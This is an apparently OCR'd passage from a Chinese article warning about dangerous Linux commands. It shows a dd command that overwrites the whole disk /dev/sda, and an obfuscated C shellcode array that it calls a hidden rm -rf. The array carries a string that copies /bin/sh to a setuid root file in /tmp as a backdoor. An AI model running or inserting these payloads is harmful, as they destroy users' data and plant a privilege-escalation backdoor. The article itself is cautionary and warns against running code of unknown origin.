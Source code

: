 # dd if=/dev/random of=/dev/sda

这个命令会向块设备sda写入随机的垃圾文件从而擦出数据，让你的系统可能陷入混乱和不可恢复的状态。

记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。

# 隐藏命令

下面的命令其实就是上面第一个命令 (rm -rf)。

这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄，如果在终端里运行下面命令可能会擦除你的根分区。

真正的危险是隐藏起来的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。

切记，千万不要编译／运行从未知来源的代码。

```shell
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

